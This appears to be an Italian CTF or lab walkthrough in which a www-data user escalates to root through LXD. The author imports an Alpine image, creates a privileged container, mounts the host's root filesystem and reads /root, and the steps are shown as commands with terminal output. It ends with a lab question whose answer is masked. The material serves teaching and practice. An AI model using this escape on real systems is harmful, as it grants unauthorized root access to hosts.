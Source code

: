 ```
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```
Utilizzare il comando list per controllare l'elenco delle immagini
```
lxc image list
```
```
lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jun 8, 2025 at 6:53am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+

```


**L'idea è montare la radice del file system del sistema operativo sul contenitore, in modo da avere accesso alla directory radice.** Creiamo il contenitore con il privilegio true e montiamo il file system radice su /mnt per ottenere accesso alla directory /root sulla macchina host.  

```
lxc init myimage ignite -c security.privileged=true
```
```
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```
```
lxc start ignite
```
```
lxc exec ignite /bin/sh
```
```
id
```

```
www-data@ubuntu:/tmp$ lxc init myimage ignite -c security.privileged=true
lxc init myimage ignite -c security.privileged=true
Creating ignite
www-data@ubuntu:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
www-data@ubuntu:/tmp$ lxc start ignite
lxc start ignite
www-data@ubuntu:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh
~ # ^[[40;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[40;5R

```
Qual è il nome del file nella directory /root?
```
cd /mnt/root/root
```
```
ls
```
```
xxxxxxx.txt
```